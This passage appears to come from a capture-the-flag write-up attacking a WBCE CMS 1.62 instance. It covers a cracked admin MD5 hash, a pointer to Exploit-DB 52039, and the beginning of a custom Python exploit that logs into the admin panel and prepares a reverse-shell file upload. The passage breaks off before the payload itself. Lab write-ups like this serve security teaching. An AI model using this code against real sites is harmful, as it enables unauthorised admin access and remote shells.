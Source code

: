 ```In case of emergency, here's the MD5 hash of the admin account: b0439fae31f8xxxxxxxxxxxxxxxxxx```
- Successfully authenticated to the WBCE CMS admin panel at `/admin` with the username admin and cracked MD5 hash
- Identified CMS version 1.62

<img src="https://i.ibb.co/wFFx3D9y/image.png" alt="Avengers Hub" width="650">

2. Exploit Research
- Located potential exploit: ["Exploit-DB 52039"](https://www.exploit-db.com/exploits/52039), based on the version
- However, default exploit failed due to disabled PHP functions

### Custom Reverse Shell

Recognizing the disabled functions, we crafted our own custom Python-based exploit to bypass restrictions:

<div class="terminal-container">
    <div class="terminal-header">
        <span class="terminal-dot red"></span>
        <span class="terminal-dot yellow"></span>
        <span class="terminal-dot green"></span>
        <span class="terminal-title">web-exploit.py</span>
        <button class="copy-btn" onclick="copyToClipboard(this)">
            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
                <rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect>
                <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path>
            </svg>
        </button>
    </div>
    <div class="terminal-body">
        <pre><code class="language-bash">import requests
from bs4 import BeautifulSoup
import time

def login(url, username, password):

    print("Logging in...")
    with requests.Session() as session:

        response = session.get(url + "/admin/login/index.php")
        soup = BeautifulSoup(response.text, 'html.parser')
        form = soup.find('form', attrs={'name': 'login'})
        form_data = {input_tag['name']: input_tag.get('value', '') for input_tag in form.find_all('input') if input_tag.get('type') != 'submit'}

        # Dynamically update username and password fields
        form_data[soup.find('input', {'name': 'username_fieldname'})['value']] = username
        form_data[soup.find('input', {'name': 'password_fieldname'})['value']] = password

        post_response = session.post(url + "/admin/login/index.php", data=form_data)

        if "Administration" in post_response.text:
            print("Login successful!")
            return session
        else:
            print("Login failed.")
            return None

def upload_file(session, url):
    print("Preparing payload...")

    # Busybox reverse shell payload
```